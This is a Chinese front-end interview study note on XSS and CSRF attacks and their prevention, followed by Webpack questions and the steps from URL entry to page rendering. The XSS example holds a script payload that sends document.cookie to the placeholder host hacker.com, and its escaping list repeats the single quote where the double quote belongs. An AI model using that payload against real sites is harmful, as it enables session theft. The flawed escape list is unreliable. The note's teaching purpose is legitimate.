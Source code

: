 #什么是 XSS 攻击？如何预防？
http://www.cnblogs.com/unclekeith/p/7750681.html
* 举例
  div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
  // 恶意就被执行了，这就是 XSS
* 预防
    * 不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
    * 如果你一样要用 innerHTML，字符过滤
        把 < 替换成 &lt;
        把 > 替换成 &gt;
        把 & 替换成 &amp;
        把 ' 替换成 &#39;
        把 ' 替换成 &quot;
    * 代码 div.innerHTML = userComment.replace(/>/g, '&lt;').replace...
    * 使用 CSP Content Security Policy


#什么是 CSRF 攻击？如何预防？
https://www.cnblogs.com/shytong/p/5308667.html
* 过程
    用户在 qq.com 登录
    用户切换到 hacker.com（恶意网站）
    hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
    用户在不知不觉中添加 hacker 为好友。
    用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
* 避免
    检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
    csrf_token 来解决


*******************

# Webpack 题

#转译出的文件过大怎么办？
使用 code split
写法 import('xxx').then(xxx=>{console.log(xxx)})
xxx 模块就是按需加载的
#转译速度慢什么办？
方方不会。
#写过 webpack loader 吗？
http://www.alloyteam.com/2016/01/webpack-loader-1/


# 发散题


#从输入 URL 到页面展现中间发生了什么？
* DNS 查询 DNS 缓存
* 建立 TCP 连接（三次握手）连接复用
* 发送 HTTP 请求报文（请求的四部分）    请求行请求头请求体
* 后台处理请求
    监听 80 端口
    路由
    渲染 HTML 模板
    生成响应
* 发送 HTTP 响应报文        响应行响应头响应体
* 关闭 TCP 连接（四次挥手）
* 解析 HTML
* 下载 CSS（缓存
* 解析 CSS
* 下载 JS（缓存
* 解析 JS
* 下载图片